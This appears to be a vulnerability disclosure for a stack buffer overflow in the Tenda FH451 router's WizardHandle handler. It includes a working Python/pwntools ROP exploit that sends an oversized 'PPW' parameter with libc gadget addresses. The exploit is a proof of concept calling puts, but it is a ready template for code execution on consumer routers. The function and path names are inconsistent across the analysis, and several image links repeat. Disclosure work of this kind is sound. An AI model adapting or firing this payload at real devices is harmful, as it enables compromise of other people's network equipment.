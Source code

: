 # Shenzhen Jixiang Tengda Technology Co., Ltd. FH451 has a Remote Code Execution vulnerability

**Vulnerability URL**: [http://0.0.0.0:80/goform/WizardHandle](http://0.0.0.0:80/goform/WizardHandle)

**Firmware Download Link:** [https://www.tenda.com.cn/material/show/1629](https://www.tenda.com.cn/material/show/1629)

## Vulnerability Analysis
The vulnerability occurs in the `fromAddressNat` function.

![Image 1](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle1.png)
![Image 1](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle1.png)
![Image 1](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle1.png)

This function accepts the `WANT` and `WANS` parameter from a POST request. Within `v45` == 2, this function accepts the `PPW` parameter from a POST request, which is assigned to `sub_3C434(v30, v5)`;. However, since the user has control over the input of `PPW`, the function `decodePwd()` leads to a buffer overflow. The user-supplied `PPW` can exceed the capacity of the `v5` array, which can lead to a program crash or potential exploitation.  
![Image 1](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle1.png)
The disassembled code of the function `sub_3C434` is as follows. It can be observed that this function does not perform bounds checking. It copies the `result` parameter byte-by-byte into the `a2` pointer parameter, which may potentially lead to a stack overflow.

Cross-referenced location: from the `fromWizardHandle` function, routed to `WizardHandle`, at line 18.
![Image 1](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle1.png)
Further cross-referenced to the `sub_64EAC` function, with attention to lines 44 and 47.
![Image 3](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat3.png)

It can be determined that the vulnerability occurs at the page path `goform/AddressNat`.

## payload
```python
import requests
from pwn import *

libc = ELF('./squashfs-root/lib/libc.so.0')
system_offset = libc.symbols["system"]
base = 0x3fe36000

system_addr = base + system_offset
puts = base+libc.symbols['puts']
str = b"hello-I-am-fzz\x00"
mov_r0 = base+0x00040cb8 # mov r0, sp; blx r3;
pop_r3 = base+0x00018298 # pop {r3, pc};
payload = b'a'*524 + p32(pop_r3)+p32(puts)+p32(mov_r0)+str

ip = '0.0.0.0:80'
url = f"http://{ip}/goform/WizardHandle"
data = {"WANS":"-1","WANT":"2","PPW":payload}
ret = requests.post(url, data)
```

# reproduce
![Image 1](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle1.png)
![Image 1](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle1.png)
![Image 1](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle1.png)
